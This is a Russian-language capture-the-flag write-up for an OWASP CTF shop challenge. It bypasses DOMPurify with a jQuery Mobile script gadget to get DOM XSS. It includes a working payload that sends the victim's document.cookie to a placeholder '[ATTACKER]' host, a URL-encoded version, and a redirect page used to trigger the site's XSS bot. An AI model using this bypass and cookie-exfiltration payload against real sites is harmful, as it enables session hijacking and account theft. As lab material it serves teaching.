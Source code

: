 # Zakarpattia (17.owaspctf.gq)

На главной странице видим онлайн магазин по продаже футболок.
На странице поиска находится интересный javascript:

```
$(document).ready(function() {
        $(".ui-loader").hide();
});

function getURLParameter(sParam) {
    var sPageURL = window.location.search.substring(1);
    var sURLVariables = sPageURL.split('&');
    for (var i = 0; i < sURLVariables.length; ++i) {
        var sParameterName = sURLVariables[i].split('=');
        if (sParameterName[0] == sParam) {
            return decodeURIComponent(sParameterName[1].replace(/\+/g,' '));
        }
    }
    return null;
};

var searchinput = getURLParameter('searchinput');
// If we have search query
if (searchinput != null && searchinput != "") {

        // You shall not pass
        var clean = DOMPurify.sanitize(searchinput);
        $("#current_search").html(clean);
        //alert(searchinput);
        //alert(clean);

}
```

Похоже на DOM XSS, но здесь используется [DOMPurify](https://github.com/cure53/DOMPurify), санитайзер для DOM.
Так же в самом начале страницы подключаются следующие скрипты:

```
<script src="//code.jquery.com/jquery-1.11.1.min.js"></script>
<script src="//code.jquery.com/mobile/1.4.5/jquery.mobile-1.4.5.min.js"></script>
<script type="text/javascript" src="DOMpurify.min.js"></script>
```

Погуглив находим [презентацию](https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf) c BlackHat USA 2017.
Где в 27 слайде приводится пример гаджета для jQuery mobile:

```
<div data-role=popup id='--><script>alert(1)</script>'></div>
```

Проверим сработает ли это для DOMPurify в нашем случае:
> Важно явно урленкодировать символ = из-за особенностей работы функции getURLParameter.

`http://17.owaspctf.gq/search.php?searchinput=<div+data-role%3Dpopup+id%3D'--><svg/onload%3Dalert(1);>'></div>`

И мы видим алерт.

---

Помимо поиска в магазине так же имеется функционал "Contact Me" который подразумевает отправку нашего URL.
Скорее всего по ссылке будет переходить XSS bot, и наша задача перехватить его cookie через выявленную DOM XSS.

Так как на странице присутствует jQuery я решил немного сократить вектор, и вместо привычного `window.location` использовать `$.get`.


Payload:
```
<div data-role=popup id='--><svg/onload=$.get("http://[ATTACKER]/?"+document.cookie);>'>%
```

Payload urlencoded:
```
%3c%64%69%76%20%64%61%74%61%2d%72%6f%6c%65%3d%70%6f%70%75%70%20%69%64%3d%27%2d%2d%3e%3c%73%76%67%2f%6f%6e%6c%6f%61%64%3d%24%2e%67%65%74%28%22%68%74%74%70%3a%2f%2f%5b%41%54%54%41%43%4b%45%52%5d%2f%3f%22%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%29%3b%3e%27%3e%
```

`http://[ATTACKER]/poc.html`:

```
<html>
<script>
window.location = 'https://17.owaspctf.gq/search.php?searchinput=%3c%64%69%76%20%64%61%74%61%2d%72%6f%6c%65%3d%70%6f%70%75%70%20%69%64%3d%27%2d%2d%3e%3c%73%76%67%2f%6f%6e%6c%6f%61%64%3d%24%2e%67%65%74%28%22%68%74%74%70%3a%2f%2f%5b%41%54%54%41%43%4b%45%52%5d%2f%3f%22%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%29%3b%3e%27%3e';
</script>
</html>
```

Отправляем эту ссылку в форме "Contact Me".

`FLAG{XSS_Could_Make_You_Waste_Your_Life}`
